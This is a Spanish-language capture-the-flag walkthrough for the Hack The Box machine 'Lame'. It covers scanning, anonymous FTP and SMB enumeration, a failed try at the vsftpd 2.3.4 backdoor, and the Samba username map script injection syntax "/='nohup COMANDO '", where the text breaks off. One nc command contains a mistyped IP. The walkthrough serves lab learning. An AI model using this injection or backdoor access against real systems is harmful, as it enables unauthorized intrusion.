---
title: "WriteUp"
author: LPUM0G0
date: "2024-08-24"
subject: "CTF Writeup Template"
keywords: []
lang: "es"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
...

[Guía](https://youtu.be/9WY2rSejDOY?si=vl_zPwrxnFRi58Yu&t=3813)

# Hack The Box Writeup: Lame

## Información General
- **Nombre de la Máquina:** Lame
- **IP:** 10.129.182.145
- **Dificultad:** Fácil
- **Autor:** ch4p
- **Fecha de Publicación:** 14/03/2017

## Resumen
¿Qué practicaremos con esta máquina?

- Samba 3.0.20 < 3.0.25rc3

- Username Map Script (Command Execution)


## Preparación del Entorno

Creamos una carpeta con el nombre de la máquina (Lame) y los siguientes subdirectorios:

- content

- exploits

- nmap

- scripts

- img


## Enumeración

### Reconocimiento del sistema operativo

Comenzamos verificando que tengamos conectividad con la máquina mediante el siguiente comando:

```LINUX
ping -c1 10.129.182.145
```



Mediante el [`TTL`](https://es.wikipedia.org/wiki/Tiempo_de_vida_(informática)) podemos inferir qué sistema operativo tiene la máquina auditada.

La lógica es la siguiente, cada sistema establece un tiempo de de vida (TTL) por paquete, cada router por el que pasa el paquete descontatrá en una unidad el valor del TTL.


1. Envías un ping desde tu máquina:

    - Tu máquina envía un paquete ICMP (ping) con un TTL inicial, que en el caso de Linux es 64.

2. La máquina de destino procesa el ping y envía un paquete de respuesta ICMP de vuelta a ti:

    - La máquina de destino recibe el ping:
    
    - La respuesta se envía con el TTL que está predeterminado en la máquina de destino. Si la máquina de destino es Linux, el TTL inicial del paquete de respuesta será 64; si es Windows, será 128.

3. Tu máquina recibe la respuesta:

    - Cuando tu máquina recibe el paquete de respuesta, el comando ping muestra el TTL restante en el paquete de respuesta, después de haber sido reducido por cualquier salto que el paquete haya hecho en el camino de regreso.


En nuestro caso, recibimos un paquete ICMP que muestra un TTL de 63, es decir la máquina objetivo es Linux y solamente pasamos por un nodo (router), el que gestiona la VPN.


Podemos ver la ruta que sigue nuestro ping (paquete ICMP) mediante el comando:

```LINUX
ping -c1 10.129.182.145 -R
```




### Escaneo de Puertos

Conociendo el sistema operativo, lo siguiente será buscar los servicios que nuestro objetivo tenga abiertos, para esto emplearemos la herramienta `nmap` que nos sirve para enumerar puertos. 

Comezaremos el escaneo con el siguiente comando:

```nmap
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.182.145 -oG ./nmap/all
```

1. `-p-`
    
    - Descripción: Escanea todos los puertos posibles, del 1 al 65535.

    - Propósito: Asegura que no solo los puertos comunes o predeterminados sean escaneados, sino que se consideren todos los puertos posibles.

2. `--open`

    - Descripción: Muestra solo los puertos que están abiertos.

    - Propósito: Filtra los resultados para que se muestren únicamente los puertos que están abiertos, lo cual es útil para centrarse en los servicios accesibles.

3. `-sS`

    - Descripción: Realiza un escaneo SYN ("SYN scan").
    
    - Propósito: Este tipo de escaneo es rápido y sigiloso. Envía paquetes SYN (solicitudes de conexión) a los puertos y espera una respuesta. Si recibe un SYN-ACK, el puerto está abierto; si recibe un RST, el puerto está cerrado. Como no completa la conexión (no envía un ACK), es más difícil de detectar y es más rápido.

4. `--min-rate 5000`
    - Descripción: Establece una tasa mínima de 5000 paquetes por segundo.
    
    - Propósito: Aumenta la velocidad del escaneo, forzando a nmap a enviar paquetes a un ritmo mínimo de 5000 por segundo. Esto acelera el escaneo, aunque **hace más ruido en la red y es más fácil de detectar**.

5. `-vvv`
    - Descripción: Aumenta la verbosidad.
    
    - Propósito: Muestra detalles adicionales durante el escaneo, como los puertos que se están probando, las respuestas recibidas, y otra información de diagnóstico. El nivel de verbosidad se incrementa con cada v adicional.

6. `-n`
    
    - Descripción: No resuelve nombres de dominio.

    - Propósito: Evita que nmap intente convertir direcciones IP en nombres de dominio (DNS lookup), lo que acelera el escaneo.

7. `-Pn`

    - Descripción: No realiza detección de hosts (ignora si el host está activo o no).

    - Propósito: nmap asume que el host está activo sin intentar hacer un "ping" previo. Esto es útil si el destino no responde a pings ICMP o si está detrás de un firewall que bloquea este tipo de solicitudes.

8. `-oG ./nmap/all`

    - Descripción: Especifica el archivo en el que se deben guardar los resultados en **[formato grepable](https://nmap.org/man/es/man-output.html)**.
    
    - Formato: El formato de salida grepable es un formato de texto plano donde cada línea contiene información sobre un puerto o servicio detectado en el escaneo. Este formato es más fácil de procesar con herramientas de línea de comandos y scripts.

El resultado que obtenemos es el siguiente:



Nuestro escaneó genero un fichero en la ruta `~/HTB/Lame/nmap/all`, dicho archivo NO genera un output muy legible, por lo que recomiendo experimentar con los parámetros `-oN`, `-oX`, `-oS` y `-oA`.



Yo instalé el siguiente [script](https://github.com/TerritorioHacker/ExtractPorts), que es capáz de resumir el output del formato grepeable de la siguiente manera:



### Enumeración de Servicios

Conociendo los puertos abiertos (expuestos), podemos realizar reconocimiento más exhaustivo sobre ellos, principalmente nos interesa saber los servicios y las versiones que están siendo utilizadas. 

```nmap
nmap -sC -sV -p 21,22,139,445,3632 10.129.182.145 -oN ./nmap/dirigido
```

1. `-sC`

    - Descripción: Realiza un escaneo de scripts predeterminados (default scripts).
    
    - Propósito: Usa los scripts de Nmap Scripting Engine (NSE) que están en la categoría "default". Estos scripts realizan una variedad de tareas como detección de versiones, identificación de vulnerabilidades comunes y obtención de información adicional sobre los servicios detectados.

2. `-sV`

    - Descripción: Realiza la detección de versiones de los servicios.
    
    - Propósito: Identifica las versiones de los servicios que se están ejecutando en los puertos abiertos. Esto ayuda a obtener detalles sobre qué versiones específicas de servicios están en uso, lo que puede ser útil para evaluar vulnerabilidades o configuraciones.

3. `-p 21,22,139,445,3632`
    
    - Descripción: Especifica una lista de puertos a escanear.
    
    - Propósito: En lugar de escanear todos los puertos o un rango de puertos, este comando escanea solo los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS Session Service), 445 (Microsoft-DS), y 3632 (distcc). Limitar el escaneo a puertos específicos puede hacer que el proceso sea más rápido y enfocado.

4. `-oN ./nmap/dirigido`

    - Descripción: Guarda los resultados en un archivo en formato de salida normal.

    - Propósito: La opción -oN guarda los resultados del escaneo en un archivo con un formato de salida estándar de Nmap. En este caso, el archivo se guardará en ./nmap/dirigido. El formato de salida normal es un texto legible que incluye información sobre los puertos abiertos, los servicios detectados y cualquier otro dato relevante que los scripts NSE hayan recolectado.

Un fragmento del output es el siguiente:



Leéremos el resultado del escaneo mediante:

```LINUX
cat ~/HTB/LAME/nmap/dirigido
```





#### FTP

Comenzamos viendo que podemos conectarnos al servicio `ftp` con el usuario `Anonymous`.


En la fase de explotación podriamos conectarnos a dicho servicio para validar si hay contenido que podamos trasferirnos y que nos pueda servir.

Aunado a eso, buscaremos vulnerabilidades asociadas con la versión del servicio reportada `vsftpd 2.3.4` con el comando:

```LINUX
searchsploit vsftpd 2.3.4
```

El resultado es el siguiente:



En la fasé de explotación nos enfocaremos en el script `unix/remote/49757.py`.

#### SSH

Si realizamos la búsqueda de vulnerabilidades del servicio ssh, nos daremos cuenta de que no hay ningúna vulnerabilidad específica de nuestra versión del servicio.



#### SAMBA

El siguiente servicio en el listado es [Samba](https://es.wikipedia.org/wiki/Samba_(software)) versión `3.0.20`, antes de buscar vulnerabilidades en exploitdb, valdría la pena validar si podemos listar los recursos compartidos disponibles en nuesto objetivo.

La sintaxis general para realizar dicho proceso es: `smbclient -L <hostname> [-U <usuario>]`

Pero como no tenemos ningúna pista de los nombres de usuario podemos intentar realizar la conexión sin autenticación, con el parámetro `-N`, lo que nos dejaría el siguiente comando:

```LINUX
smbclient -L 10.129.182.145 -N
```

Vemos que el listado funciona y tenemos los siguientes recursos:




Probaremos a conectarnos al recurso `tmp` con:

```Linux
smbclient //10.129.182.145/tmp -N
```
La conexión funciona y nos permite listar el contenido del recurso `tmp` con el comando `dir` 



Continuamos buscando vulnerabilidades para el servicio `Samba` versión `3.0.20`



En la fasé de explotación nos enfocaremos en el script `unix/remote/16320.rb`.

***

## Explotación

### FTP

Dados los resultados del análisis de vulnerabilidades de la fase de enumeración, procederemos a analizar el contenido del [exploit](https://es.wikipedia.org/wiki/Exploit) descargando una copia desde base de datos de [exploitdb](https://www.exploit-db.com) con el comando:

```LINUX
searchsploit -m unix/remote/49757.py
```

Y lo moveremos a nuestra carpeta de `scripts` mediante el comando:

```LINUX
mv ./49757.py ./scripts/
```

O podemos ejecutar ambas operaciones en un "*[one-liner](https://www.linuxtotal.com.mx/index.php?cont=info_shell_007)*":

```LINUX
searchsploit -m unix/remote/49757.py && mv ./49757.py ./scripts/
```


El contenido del script *49757.py* es el siguiente:



El análisis de dicho código nos indica que es posible abrir una conexión telnet con el usuario "nergal:)" y la contraseña "pass" en el puerto 6200, nosotros podemos validar la funcionalidad del script con [`nc`](https://es.wikipedia.org/wiki/Netcat) y [`telnet`](https://es.wikipedia.org/wiki/Telnet).

Comenzaremos estableciendo una conexión `telnet` en el puerto 6200 con:

```LINUX
telnet 10.129.182.145 6200
```



De manera simultanea, abriremos la conexión TCP con el puerto 21 mediante el comando:

```LINUX
nc 19.129.182.145 21
```



Vemos que nos responde con el texto que el script espera en su línea 32 para escribir el usuario, ingresamos al usuario "nergal:)".

Posteriormente veremos que el texto que la línea 34 del script espera, no es el mismo, por lo que deberíamos editarlo en caso de querer usar dicho script. 

Sin embargo, ingresamos la contraseña "pass" y vemos que no se estable ninguna sesión de telnet.



En caso de querer usar el script debemos editar la línea 34 y ejecutarlo:



Nos percataremos que tampoco funciona. 

Debemos continuar analizando los demás servicios porque el manternos en el servicio ftp sería atascarnos en un "[rabbit hole](https://medium.com/@luke.williams1248/on-pen-testing-rabbit-holes-and-how-to-avoid-them-ed7b93cdfaa5)".

### Samba

Traeremos el script de manera análoga a como lo hicimos con el del servicio ftp y lo renombraremos como samba_exp.rb con el siguiente comando:


```LINUX
searchsploit -m unix/remote/16320.rb && mv ./16320.rb ./samba_exp.rb && mv ./samba_exp.rb ./scripts/
```



Leamos el contenido con:

```LINUX
cat ./scripts/samba_exp.rb
```






El anterior script es parte de [Metasploit](https://es.wikipedia.org/wiki/Metasploit) por lo que el contenido de las líneas 14 a 72 no es relevante para entender como funciona la vulnerabilidad, aunque la descripción contenida nos puede orientar bastante.

El código que más nos interesa está entra la línea 75 y la 89.

Será útil que leamos a qué se refiere el término [nohup](https://es.wikipedia.org/wiki/Nohup).

En resumen el exploit consta en logearse al servicio Samba con un usuario que siga la siguiente sintaxis:

`"/='nohup COMANDO '"`

